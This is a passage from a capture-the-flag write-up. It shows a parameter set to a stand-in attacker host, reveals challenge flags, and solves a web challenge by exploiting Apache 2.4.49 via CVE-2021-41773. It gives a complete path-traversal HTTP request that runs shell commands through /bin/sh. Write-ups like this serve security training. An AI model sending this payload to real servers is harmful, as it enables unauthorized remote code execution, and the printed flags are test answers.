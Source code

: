 ```
target=http://attacker.sg.pwn

```

The resultant PDF document that gets rendered contains:

```
Welcome back to home admin! Here is your Flag: VULNCON{W3lc0me_b4ck_t0_h0m3}
```

**Flag:** `VULNCON{W3lc0me_b4ck_t0_h0m3}`


## Web/Health Portal

```
Web/Health Portal
r3curs1v3_pr0xy
12 solves / 472 points
I've created a health portal can you find a vulnerability on it

Challenge Link: http://165.232.180.125/

Note : Bruteforcing and running automated tools are not required.
```

### Solution

Making a sample request allows us to the obtain the following server banner:

```
Server: Apache/2.4.49 (Debian)
```

This tells us that the instance is vulnerable to [CVE-2021-41773](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013).

Making the following request confirms exploitability.

```
GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 139.59.2.201
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 22


echo;whoami;ls -la /
```

